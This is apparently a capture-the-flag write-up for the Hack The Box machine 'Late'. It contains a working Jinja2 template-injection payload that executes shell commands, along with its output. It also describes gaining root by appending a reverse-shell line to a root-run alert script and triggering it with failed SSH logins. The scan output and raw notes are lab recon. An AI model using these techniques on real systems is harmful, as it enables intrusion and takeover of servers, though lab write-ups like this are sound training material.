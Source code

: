 I eventually was able to get code injection: 

Tried:	
`aaa{{ cycler.__init__.__globals__.os.popen('id').read() }}`
Response:	
`aaauid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)`

Took the python code I'd used to exploit and parse the response, and scripted a pseudoshell exploit sstiexploit.py.

Root was *much* easier, found a script that runs after 3 bad ssh root logins to email the owner, called ssh-alert.sh.  I added a revshell oneliner to the bottom and forced 3 bad ssh logins to pop the rootshell.


## Raw Notes:

Interesting sidenote: 
2002 Holcombe Boulevard, Houston, TX 77030, USA is a veterans hospital??

Scanned site, found a link to images.late.htb
Found flask app that looks to be the backend for the site: 
https://github.com/lucadibello/ImageReader

Looked at what I could do with the code, nothing obvious standing out.  Checked out flask SSTI etc
Found that it definitely responded to a few SSTI payloads confirming that {{ 7*7 }} and {{ 7*'7' }} result in 49, and 7777777, which looks like Jinja2


## Enumeration

Started with an autorecon and quick verbose nmap while I wait for it.  Notes:

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools

301        7l       13w      194c http://late.htb/assets
200       98l      512w     4909c http://late.htb/assets/css/bootstrap-theme.css
200      230l     1009w     9461c http://late.htb/index.html
200        4l       17w      370c http://late.htb/assets/images/gt_favicon.png
200       82l      522w     4166c http://late.htb/assets/css/main.css
200      204l      517w     6364c http://late.htb/contact.html
200       13l       18w      217c http://late.htb/assets/js/template.js
200        8l       73w     2429c http://late.htb/assets/js/html5shiv.js

|     (1) email: 
|_      + support@late.htb

|     Path: http://late.htb:80/contact.html
|     Form id: 
|_    Form action: ?msg=Message Sent!
